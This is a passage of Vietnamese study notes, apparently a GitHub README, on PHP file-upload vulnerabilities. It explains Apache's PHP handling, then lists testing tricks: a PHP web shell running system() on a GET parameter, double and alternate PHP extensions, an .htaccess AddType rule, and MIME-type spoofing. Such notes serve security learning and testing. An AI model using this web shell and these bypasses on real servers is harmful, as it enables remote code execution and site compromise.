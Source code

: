 # Hoạt động của web:
  <img width="487" alt="image" src="https://github.com/shinyluck/CBJS/assets/76943559/4943dd06-b251-41f5-acdc-1e01776c7fff">
  
- Khi có gói tin HTTP được gửi đến server ví dụ GET /home.html , httpd sẽ tìm trong Document Root file home.html và đẩy ngược lại người dùng
- Apache ở chế độ mặc định không thể xử lý PHP, cần libapache mod php để xử lý hộ, quá trình như sau:
  <img width="454" alt="image" src="https://github.com/shinyluck/CBJS/assets/76943559/f4d8ddb5-cfc0-4344-83a4-8ab644317c50">

- Các file cấu hình cần biết khi làm việc với fileupload của php:
    -   File .htaccess: Dùng để để thiết lập các tùy chọn như thực thi hay loại bỏ tính năng, quản lí các truy cập website
    -   Thiết lập file .htaccess để cho phép các file có đuôi .hanhcute thực thi như 1 file php, từ đó bypass validation extension: AddType application/x-httpd-php .hanhcute


# Những trick lỏ để test fileupload

1. Upload thẳng file shell php:
   
           <?php
            if(isset($_GET['cmd']))
            {
                system($_GET['cmd']);
            }
        ?>
   Lưu ý : có thể thử bằng phpinfo() để không bị filewall chặn
3. Thêm đuôi php vào sau cấc đuôi file được phép upload , ví dụ : .png.php
4. Dùng các đuôi file khác cũng có thể thực thi php như : .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module
5. Upload htaccess  để cho phép các file có đuôi .hanhcute thực thi như 1 file php, từ đó bypass validation extension: AddType application/x-httpd-php .hanhcute
6. Đổi/ không thay đổi MIME type :
<img width="355" alt="image" src="https://github.com/shinyluck/CBJS/assets/76943559/726960e9-720c-497c-8434-738381658903">
7. Thêm ký tự MIMEtype của ảnh vào để bypass validation
   
